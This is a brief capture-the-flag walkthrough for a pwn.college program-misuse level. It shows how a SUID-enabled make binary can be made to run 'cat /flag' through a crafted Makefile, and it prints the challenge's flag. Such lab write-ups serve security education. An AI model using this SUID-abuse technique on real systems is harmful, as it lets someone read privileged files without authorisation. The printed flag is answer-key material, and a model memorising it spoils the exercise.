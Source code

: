# pwn.college - Fundamentals - Program misuse - Level 26
```
$ /challenge/babysuid_level26
```
The SUID bit on `/usr/bin/make` is set. Create a `Makefile` in the current directory with the following text:
```
test:
    cat /flag
```
Make sure you're using a tab on the second line. Now simply run:
```
$ make
```
And the flag `pwn.college{gkiu41WV74QJRQNk7EeEcmD5Gnk.0FO2EDLyYjNyEzW}` will be printed as part of the output of `cat /flag`